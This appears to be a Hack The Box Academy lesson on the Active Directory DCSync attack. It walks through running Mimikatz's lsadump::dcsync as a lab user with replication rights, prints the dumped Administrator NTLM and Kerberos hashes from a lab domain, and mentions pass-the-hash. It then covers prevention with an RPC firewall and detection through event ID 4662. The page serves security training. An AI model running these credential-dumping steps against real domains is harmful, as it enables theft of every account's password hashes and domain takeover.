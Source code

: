 ## Description

`DCSync` is an attack that threat agents utilize to impersonate a Domain Controller and perform replication with a targeted Domain Controller to extract password hashes from Active Directory. The attack can be performed both from the perspective of a user account or a computer, as long as they have the necessary permissions assigned, which are:

- `Replicating Directory Changes`
- `Replicating Directory Changes All`

---

## Attack

We will utilize the user `Rocky` (whose password is `Slavi123`) to showcase the `DCSync` attack. When we check the permissions for Rocky, we see that he has `Replicating Directory Changes` and `Replicating Directory Changes All` assigned:

![Creds in Description](https://academy.hackthebox.com/storage/modules/176/A7/DCPermission.png)

First, we need to start a new command shell running as Rocky:

  DCSync

```cmd-session
C:\Users\bob\Downloads>runas /user:eagle\rocky cmd.exe

Enter the password for eagle\rocky:
Attempting to start cmd.exe as user "eagle\rocky" ...
```

![Creds in Description](https://academy.hackthebox.com/storage/modules/176/A7/Rockyprompt.png)

Subsequently, we need to use `Mimikatz`, one of the tools with an implementation for performing DCSync. We can run it by specifying the username whose password hash we want to obtain if the attack is successful, in this case, the user 'Administrator':

  DCSync

```cmd-session
C:\Mimikatz>mimikatz.exe

mimikatz # lsadump::dcsync /domain:eagle.local /user:Administrator

[DC] 'eagle.local' will be the domain
[DC] 'DC2.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 07/08/2022 11.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8
```

![Creds in Description](https://academy.hackthebox.com/storage/modules/176/A7/AdminHash.png)

It is possible to specify the `/all` parameter instead of a specific username, which will dump the hashes of the entire AD environment. We can perform `pass-the-hash` with the obtained hash and authenticate against any Domain Controller.

---

## Prevention

What DCSync abuses is a common operation in Active Directory environments, as replications happen between Domain Controllers all the time; therefore, preventing DCSync out of the box is not an option. The only prevention technique against this attack is using solutions such as the [RPC Firewall](https://github.com/zeronetworks/rpcfirewall), a third-party product that can block or allow specific RPC calls with robust granularity. For example, using `RPC Firewall`, we can only allow replications from Domain Controllers.

---

## Detection

Detecting DCSync is easy because each Domain Controller replication generates an event with the ID `4662`. We can pick up abnormal requests immediately by monitoring for this event ID and checking whether the initiator account is a Domain Controller. Here's the event generated from earlier when we ran `Mimikatz`; it serves as a flag that a user account is performing this replication attempt:

![Creds in Description](https://academy.hackthebox.com/storage/modules/176/A7/DetectDCSync.png)

Since replications occur constantly, we can avoid false positives by ensuring the followings:

- Either the property `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` or `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` is [present in the event](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1522b774-6464-41a3-87a5-1e5633c3fbbb).
- Whitelisting systems/accounts with a (valid) business reason for replicating, such as `Azure AD Connect` (this service constantly replicates Domain Controllers and sends the obtained password hashes to Azure AD).
